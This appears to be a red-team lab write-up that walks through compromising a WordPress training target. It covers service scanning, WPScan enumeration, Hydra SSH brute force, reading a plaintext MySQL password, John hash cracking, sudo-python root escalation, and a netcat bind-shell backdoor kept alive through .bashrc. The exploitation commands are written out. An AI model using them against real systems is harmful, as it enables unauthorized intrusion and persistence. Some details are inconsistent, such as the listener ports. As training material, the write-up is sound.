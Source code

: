 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
  - Obtain Flags 1-4
  - Establish a back door

### Network Topology
![Network Topology](/Images/Final_project_top.JPG)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sS 192.168.1.110
```
![Nmap Scan](/Images/NmapScan.png)


This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22	SSH
  - Port 80	http
  - Port 111	rpcbind
  - Port 139	netbios-ssn
  - Port 445	microsoft-ds

The following vulnerabilities were identified on target 1:
- Target 1
  - CWE-200: Exposure of Sensitive Information to an Unauthorized Actor 
    - The product exposes sensitive information to an actor that is not explicitly authorized to have access to that information.
    - Allowed for port scan and identification of vulnerable ports.
  - CWE-672: Operation on a Resource after Expiration or Release
    - The software uses, accesses, or otherwise operates on a resource after that resource has been expired, released, or revoked.
    - Wordpress version 4.8.7 was vulnerable to user enumeration among other vulnerabilities, and allowed for discovery of users of target 1.
  - CWE-521: Weak Password Requirements 
    - The product does not require a strong passwords, which makes it easier for attackers to compromise user accounts.
    - Allows a brute force attack to crack or guess the weak password of an user: Michael, and use the stole credentials to infiltrate the server.
  - CWE-307: Improper Restriction of Excessive Authentication Attempts 
    - The software does not implement sufficient measures to prevent multiple failed authentication attempts within in a short time frame, making it more susceptible to brute force attacks.
    - Allows a brute force attack to occur.
  - CWE-256: Unprotected Storage of Credentials
    - Storing a password in plaintext may result in a system compromise.
    - MySQL password was stored in plain text, and used to access MySQL database.
  - CWE-522: Insufficiently Protected Credentials
    - The product transmits or stores authentication credentials, but it uses an insecure method that is susceptible to unauthorized interception and/or retrieval.
    - MySQL contained user passwords hashes that was cracked by John.
  - CWE-863: Incorrect Authorization Reverse shell vulnerability 
    - The software does not correctly perform an authorization check, which  allows attackers to bypass intended access restrictions.
    - Steven, with permission of execute python exe, was used to escalate privileges to root.

![SSHVuln](/Images/SSHVuln.png)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - WPScan to enumerate users
        - `wpscan --url 192.168.1.110/wordpress/ --enumerate u`
        - ![WPScan](/Images/WPScan.png)
      - Use Hydra to crack michael's password or guess password
        - `hydra -l michael -P /usr/shar/wordlists/rockyou.txt 192.168.1.110 ssh`
        - ![Hydra](/Images/Hydra.PNG)
      - Use stolen credentials to SSH into michael's account
        - `ssh michael@192.168.1.110`
        - `Password: michael`
      - Search for Flag1
        - `grep -rnw ./ -e 'flag1' 2>/dev/null`
        - ![flag1](/Images/Flag1.PNG)

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Search for Flag2 in /var/www
      - `cd /var/www`
      - `grep -rnw ./ -e 'flag2' 2>/dev/null`
      - ![flag2](/Images/Flag2.PNG)

  - `flag3.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find plain text password my MySQL database
        - `grep -rnw ./ -e 'password' 2>/dev/null`
        - `nano /var/www/html/wordpress/wp-config.php`
        - ![PlaintextPW](/Images/PlaintextPW.PNG)
      - Access and search MySQL database for usernames and passwords
        - `mysql -u root -p'R@3nSecurity'`
        - ![My1](/Images/Mysql1.png)
        - ![My2](/Images/Mysql2.png)
        - `select post_content from wp_posts`
        - ![My3](/Images/Mysql3.png)

  - `flag4.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Find user hashed password
        - ![hash](/Images/HashPW.png)
      - Crack user hashed password with Jack the Ripper
        - Create a .txt file with the usernames and hash passwords
          - ![hashtxt](/Images/HashPWtext.png)
        - `john hash_pw.txt`
          - ![Cracked](/Images/Cracked.PNG)
      - Log in as Steven with cracked password
        - ![SSHSteven](/Images/SSHSteven.png)
      - Escalate to root
        - ![UserPrivilages](/Images/UserPrivilages.png)
        - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
      - Search for flag4
        - `find . -name flag4.txt`
        - ![flag4](/Images/flag4.png)
  - Backdooring the Target
    - **Exploit Used**
      - Backdoor installed: (Bind Shell) Netcat
      - Set up a listener on Target 1 by:
        - Gain root access to Target 1 and executing:
          - `nc -lvnp 444 - /bin/bash`
          - Save a .sh file of the command in .bashrc
        - Connect it to Kali by: 
          - `nc 192.168.1.110 4444`
        - ![Backdoor](/Images/Backdoor.png)



